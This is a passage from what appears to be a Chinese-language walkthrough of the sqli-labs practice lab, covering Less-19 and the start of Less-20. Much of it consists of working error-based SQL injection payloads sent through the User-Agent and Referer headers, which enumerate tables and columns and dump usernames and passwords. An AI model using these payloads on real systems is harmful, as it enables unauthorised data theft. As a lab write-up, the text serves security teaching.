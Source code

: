 再user-agent中使用报错注入

##### 注入步骤

- 报错注入不需要判断字段数，所以直接爆数据库名`payload:?1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '`
- 爆数据表`payload:' and updatexml(1,concat('~',(select group_concat(table_name)from information_schema.tables where table_schema=database()),'~'),1) and '1'=1'`
- 爆字段`payload:1' and updatexml(1,concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'),1) and '` 右：`1' and updatexml(1,right(concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'),32),1) and '`
- 爆数据`payload:1' and updatexml(1, concat(0x7e,(select (group_concat(username,password)) from users),0x7e),1) and '` `payload:1' and updatexml(1, right(concat(0x7e,(select (group_concat(username,password)) from users),0x7e),32),1) and '`

## less-19

##### 注入类型

referfer部分注入

##### 输入点：

经过尝试发现在referfer中传入值会有回显(用户名和密码都是要正确的才行，admin/admin)

![image-20201112151218738](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114710.png)

##### 输出点：

使用BP工具修改其referfer的值为`aaa`传入，页面回显如下。所以可以判断后台语句有插入referfer于是在referfer中使用报错注入。

![image-20201112151250569](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114711.png)

##### 注入步骤

- 报错注入不需要判断字段数，所以直接爆数据库名`payload:?admin' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '`
- 爆数据表`payload:admin' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'))and '`
- 爆字段`payload:1' and extractvalue(1,concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'))and '` 右：`1' or extractvalue(1,right(concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'),32))and '`
- 爆数据`payload:1' and extractvalue(1, concat(0x7e,(select (group_concat(username,password)) from users),0x7e))%23` `payload:?1' and extractvalue(1, right(concat(0x7e,(select (group_concat(username,password)) from users),0x7e),32))and '`

## less-20

##### 注入类型

cookie部分注入

##### 输入点：
